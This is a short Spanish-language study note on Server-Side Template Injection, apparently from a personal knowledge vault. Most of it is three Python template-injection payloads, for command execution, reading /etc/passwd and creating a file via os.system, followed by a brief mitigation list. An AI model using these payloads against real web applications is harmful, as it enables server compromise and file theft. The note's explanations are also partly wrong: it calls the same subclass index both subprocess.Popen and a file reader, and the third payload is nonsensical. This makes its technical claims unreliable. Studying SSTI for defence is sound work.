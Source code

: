 ___

- Tags: 

___
# Introducción

Server-Side Template Injection (**SSTI**) es una vulnerabilidad que ocurre cuando un atacante puede inyectar y ejecutar código del lado del servidor dentro de plantillas de un motor de renderizado, lo que puede tener consecuencias graves en la seguridad de una aplicación web.

___
# Ejemplos de Payloads en Python

### Ejecución de Comandos

```python
  {{ ''.__class__.__mro__[2].__subclasses__()[40]('/usr/bin/id').read() }}
  ```
  
  Este [[Payload Staged|payload]] utiliza la clase `subprocess.Popen` para ejecutar el comando `'/usr/bin/id'` y lee la salida.

### Lectura de Archivos


  ```python
  {{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
  ```

Este [[Payload Staged|payload]] lee el contenido del archivo `/etc/passwd` utilizando la misma técnica de ejecución de comandos.

### Operaciones Adicionales

  ```python
  {{ ''.__class__.__mro__[2].__subclasses__()[59]('import os; os.system("touch /tmp/pwned")').read() }}
  ```
  
  Este [[Payload Staged|payload]] ejecuta una operación adicional: en este caso, utiliza `os.system` para tocar (crear) un archivo en el sistema.

____
# Medidas de Mitigación

- Utilizar contextos de plantillas seguros y escapar adecuadamente los datos del usuario.
- Limitar las funciones y objetos accesibles desde las plantillas.
- Mantener y actualizar los motores de plantillas para parches de seguridad.

___
# Nota sobre Server-Side Template Injection (SSTI) 

Para obtener ejemplos de [[Payload Staged|payloads]] **SSTI**, puedes consultar el repositorio PayloadsAllTheThings en GitHub: [PayloadsAllTheThings - SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)